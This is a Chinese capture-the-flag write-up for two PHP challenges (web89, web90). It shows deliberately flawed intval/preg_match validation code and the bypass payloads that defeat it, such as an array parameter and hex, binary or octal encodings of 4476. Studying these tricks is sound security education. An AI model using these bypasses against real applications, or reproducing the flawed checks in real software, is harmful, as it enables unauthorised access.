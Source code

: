 ## web89(intval数组绕过)

```php
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

```
preg_match函数，返回值是匹配的次数（0或1次），因为preg_match匹配到一次就会停止搜索
intval函数，传入非空数组时返回1
```

`payload：num[]=1`

## web90(intval)

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
} 
```

```
intval(mixed $value, int $base = 10): 
```

如果 base 是 0，通过检测 value 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0b" (或 "0B") 开头，使用 2 进制 (binary)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)。 

payload:

```
num=0x117c  16进制
num=0b1000101111100 2进制
num=010574 八进制
num=4476.0   小数点  
num=+4476
num=4476e1 科学计数法
num=4476a
```
